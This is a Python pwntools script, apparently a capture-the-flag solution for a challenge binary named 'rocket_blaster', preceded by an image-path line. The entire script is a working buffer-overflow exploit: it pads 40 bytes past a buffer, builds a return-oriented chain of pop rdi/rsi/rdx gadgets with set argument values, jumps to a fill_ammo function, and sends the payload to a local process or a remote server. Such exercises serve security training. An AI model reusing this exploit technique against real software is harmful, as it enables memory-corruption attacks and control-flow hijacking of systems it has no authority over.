 ```python

def pwn_rocket_blaster(proc):
    pop_rdi, pop_rsi, pop_rdx = find_gadgets(LOCAL_FILE_PATH)

    # Receive until the prompt
    proc.recvuntil(b">> ")

    # Addresses and arguments
    fill_ammo_addr = 0x4012f5
    arg1 = 0xdeadbeef
    arg2 = 0xdeadbabf
    arg3 = 0xdead1337

    # Padding to reach the return address
    padding = b"A" * 40

    # Construct the payload
    payload = padding
    payload += p64(pop_rdi) + p64(arg1)  # Set RDI
    payload += p64(pop_rsi) + p64(arg2)  # Set RSI
    payload += p64(pop_rdx) + p64(arg3)  # Set RDX
    payload += p64(fill_ammo_addr)  # Address of fill_ammo

    # Send the payload
    proc.sendline(payload)
    with open ('input2.txt', 'wb') as out:
        out.write(payload)


    print(f"Trying payload: {payload}")

    # Try to receive the response
    try:
        res = proc.recvall(timeout=2) 
        print(res.decode())
    except EOFError:
        print("Process exited before receiving all data.")


def run_remote():
    conn = remote(REMOTE_SERVER, REMOTE_PORT)
    pwn_rocket_blaster(conn)

def run_bin_local(process_path: str):
    proc = process([process_path])
    pwn_rocket_blaster(proc)

def main():
    run_bin_local(LOCAL_FILE_PATH)
    #run_remote()

if __name__ == '__main__':
    main()
```
